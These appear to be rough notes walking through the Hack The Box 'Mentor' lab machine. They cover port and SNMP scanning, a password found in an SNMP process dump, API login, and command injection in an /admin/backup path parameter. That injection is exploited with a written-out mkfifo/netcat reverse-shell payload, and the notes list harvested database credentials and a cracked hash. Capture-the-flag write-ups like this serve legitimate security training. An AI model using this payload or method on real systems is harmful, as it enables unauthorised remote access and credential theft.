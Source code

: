 Hack the box - mentor

Initial nmap scan with first 1000 tcp ports
```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
```
Targert OS version
ubuntu jammy 22.04

Nmap 65535 port scan
no open ports rather than inital 1000 tcp ports scan

Udp scan nmap 1000 ports
```bash
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: mentor
```

service-snmp

snmp-brute we find a valid community string "internal" and dump datas using snmpbulkwak tool
we got a password from a process the process runing a script named login.py with argument as password
"kj23sadkj123as0-d213"


Service- HTTP

# mentorqoutes.htb
backend server python -  Werkzeug/2.0.3 Python/3.6.9

# api.mentorquotes.htb
Framework - Fastapi
swagger ui - /docs
We can create a user /auth/login {username,email,password}
endpoints /admin/check {not yet implemented}
          /admin/backup {path}

we can login user james as password we get from snmpdump

RCE on admin/backup PATH parameter
payload
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

postgresql://postgres:postgres@192.168.1.4/hello_fastapi_dev'

53f22d0dfa10dce7e29cd31f4f953fd8
53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani
public
/root/scripts/docker/API /API rw,relatime - ext4 /dev/mapper/ubuntu--vg-ubuntu--lv rw
